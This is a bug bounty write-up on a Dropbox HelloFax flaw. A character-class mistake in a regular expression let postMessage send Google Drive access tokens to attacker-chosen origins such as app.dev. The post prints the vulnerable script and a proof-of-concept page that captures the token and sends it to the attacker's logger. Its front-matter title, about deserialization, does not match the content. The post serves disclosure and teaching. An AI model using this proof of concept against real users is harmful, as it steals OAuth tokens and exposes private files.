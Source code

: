 ```yaml
---
layout: post
title: Insecure Deserialization in a nutshell 
---
```


# [Dropbox bug bounty] Watch your regular expressions: Exploiting PostMessage bugs to leak GDrive tokens !

## TL;DR
In this blog post we will be discussing how minor validation issues in your regular expression patterns could lead to major security issues, the Dropbox's origin validation in the PostMessage function was misconfigured leading to GDrive tokens leak to third party origins !

## Introduction:
Dropbox's HelloFax offers documents management services to its users, particularly faxes:

![hellofax](https://bugcrowd.com/dropbox/submissions/d1df4c3b-6c03-41a2-94d9-db3bc883ae0e/attachments/5c035c45-514d-4a5e-aa88-ec2fa7f59b53)

Upon clicking on Send Fax to select your documents to be faxed, the following page will be shown:

![send-fax](https://bugcrowd.com/dropbox/submissions/d1df4c3b-6c03-41a2-94d9-db3bc883ae0e/attachments/81db14d4-cd63-4f27-b244-cd1ab672369a)

Documents could be uploaded either from our device or by integrating a third party service such as **Google Drive**, Upon clicking on the google drive icon, an OAuth window will pop up:

![oauth-window](https://bugcrowd.com/dropbox/submissions/d1df4c3b-6c03-41a2-94d9-db3bc883ae0e/attachments/65711e90-5b4d-48ef-9de7-d8b9c2de5956)

- **NOTE:** whenever you see a window popup especially in OAuth integrations keep in mind that there is a possibility of using PostMessage functions, thus bringing other security issues to the table ! it isn't the case every time but keep it in mind when testing such applications !

After granting access in behalf of the user, Google will authorize the OAuth request and send the **authorization code** using the following GET request:

```
GET /home/googleNewFile?state=<state>&code=<authorization_code>&scope=email+profile+openid+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fdrive.readonly+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fuserinfo.email+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fuserinfo.profile&authuser=1&prompt=none HTTP/1.1
Host: app.hellofax.com
Cookie: <COOKIES>
```

The application hosted on `app.hellofax.com` will take the `authorization code` and exchanges it with access token, in our case it's a **Gdrive Access Token** in order to access user's **Google Drive** documents and files with the permissions predefined in the `scope` parameter, the whole process is explained in the following chart:

![oauth-process](https://bugcrowd.com/dropbox/submissions/d1df4c3b-6c03-41a2-94d9-db3bc883ae0e/attachments/d77915c2-ab7d-4798-991f-111912697db6)

After exchanging the **code** with a **GDrive access token**; The following response will be sent:

```
<script type="text/javascript" nonce="Bg2IcOtuFadT8UofntcBuA6M">
    let gdriveAccessToken = "<gdrive_access_token>";
    let gdriveReadonlyOAuthSucceed = "true";

    var resultObj = {
        gdriveAccessToken: gdriveAccessToken,
        gdriveReadonlyOAuthSucceed: gdriveReadonlyOAuthSucceed,
        type: "gdrive:readonlyOAuthSucceed", // needed to pass a message to the parent window
    };

    if (window.opener) {
        /**
         * Ensures we're only sending GDrive tokens to other hellosign domains (dev, qa, staging, prod)
         */
        let targetOrigin = window.opener.location.href.match(/^https:\/\/app\.[hellosign|dev-|qa-|staging-][^\/]+/)[0];

        window.opener.postMessage(resultObj, targetOrigin);
    }
</script>
```

The **GDrive access token** is assigned to a varibale with the name `gdriveAccessToken` which is also included within an object with the name `resultObj`, the application checks if there is an opener window, the comment `//Ensures we're only sending GDrive tokens to other hellosign domains (dev, qa, staging, prod)` shows that the validation on the origin will assure that the **GDrive access token** will be sent only to permitted origins (hellosign trusted domains) and **NOT** to third party origins (untrusted), to apply the validation functionality; the application used to match the opener window's origin with the following regular expression pattern:

```
 let targetOrigin = window.opener.location.href.match(/^https:\/\/app\.[hellosign|dev-|qa-|staging-][^\/]+/)[0];
```

It checks that the opener window's origin matches the following pattern:

```
/^https:\/\/app\.[hellosign|dev-|qa-|staging-][^\/]+/
```

Can you catch the error above ? Could you found it ? Great !

The developer tried to match the second-level domain with the domain names [hellosign-dev-qa-staging-] but he employed the wrong operator ! the character class `[]` will accept every character included there: `h, e, l, o, s, i, g, n, |, d, e, v, -, etc..` which offers to the attacker a flexibility in selecting the origin that will get the **Gdrive access token**, the pattern would accept `https://app.dev, https://app.hellosign, https://app.qa, https://app.staging` as trusted origins.

Therefore a PostMessage function will be invoked to send the `resultObj` that contains the **Gdrive token** to the opener window's origin validated by an insecure regular expression pattern, it could be  `app.dev` for example !

```
window.opener.postMessage(resultObj, targetOrigin);
```

## Time to Exploit: Bringing your brightest photos in Google Drive to the table !

To exploit this issue, the attacker must get a valid **authorization code** and a domain name with the origin https://app.dev for example that hosts the following exploit code:

```
<!DOCTYPE html>
<html>
<head>
    <title>PostMessage PoC</title>
</head>
<body>

    <script>

        window.open("https://app.hellofax.com/home/googleNewFile?state=<VALID_STATE>&code=<VALID_AUTHORIZATION_CODE>&scope=email+profile+openid+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fdrive.readonly+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fuserinfo.email+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fuserinfo.profile&authuser=1&prompt=none");

        window.addEventListener('message', (event) => {

            window.location.href = '/logger.php?gdrive_access_token=' + event.data.gdriveAccessToken; 

        })


    </script>

</body>
</html>
```

- **Impact:** Getting the **Gdrive access token** will give the attacker a scoped access to your Google Drive files including your holiday photos, your documents, and of course some information per the `email+userinfo.profile information` scope !

### Key Points:
- **For bug hunters/security professionals:** OAuth testing is one of my favorite parts in web security, whenever your find your screen filled with window popups that's a good indicator that you might face a PostMessage configuration, tokens/secrets/codes transmitted between windows need a secure way to travel, developers think that PostMessage is the right plane ! Stay tuned !
- **For developers:** I love regular expressions, a real art that everyone should respect, but I still support the classic method, an array with permitted origins and a strict string comparison will be enough to deliver the needed functionality.
- **For Internet users:** Google does a great job to secure your files/documents, but attackers have their weapons too ! that small click on your screen will be enough to pave attackers's way to your infos, make sure that you give your click to the right application !

Thanks for reading, if you have any question regarding this blog post please feel free to ping me on twitter `@mdakh404_`.
